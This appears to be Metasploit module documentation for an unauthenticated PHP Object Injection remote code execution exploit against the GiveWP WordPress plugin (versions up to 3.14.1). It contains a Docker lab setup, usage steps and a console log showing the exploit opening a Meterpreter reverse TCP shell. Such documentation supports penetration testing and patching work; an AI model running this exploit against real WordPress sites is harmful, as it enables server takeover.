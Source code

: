 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object that can lead to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Use the following `docker-compose.yml` file to set up a vulnerable WordPress environment.

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

2. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

3. **Create a Donation Form**:
  - Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
  - Select the any form.
  - Configure the form as needed, publish it.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 > use exploit/multi/http/wp_givewp_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 8, 10, 13
[*] Using Form ID: 13 for exploitation.
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.24.0.3:51272) at 2024-08-27 22:11:22 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
